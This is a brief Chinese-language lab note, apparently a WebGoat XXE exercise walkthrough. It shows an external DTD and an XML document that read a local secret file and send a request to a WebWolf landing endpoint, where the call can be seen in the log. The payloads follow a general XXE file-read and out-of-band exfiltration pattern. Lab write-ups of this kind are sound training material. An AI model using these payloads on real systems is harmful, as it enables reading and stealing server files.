 ![](../images/Pasted%20image%2020241126160842.png)
![](../images/Pasted%20image%2020241126161733.png)

这个地方卡住了，一开始没理解
原来不是把secret.txt文件上传上去，是利用这个landing请求拼接出一个url
这条访问记录可以在webwolf后台直接看到
比如这样
dtd文件
```dtd
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY test SYSTEM "file:///home/webgoat/.webgoat-2023.8/XXE/testtest/secret.txt">
<!ENTITY send SYSTEM 'http://127.0.0.1:9090/WebWolf/landing?text=file:///home/webgoat/.webgoat-2023.8/XXE/testtest/secret.txt'>
```
xml如下
```xml
<?xml version="1.0"?>
<!DOCTYPE dtd SYSTEM "http://127.0.0.1:9090/WebWolf/files/testtest/attack.dtd">
<comment>
  <text>&send;</text></comment>
```
访问看到我直接卸载dtd里的url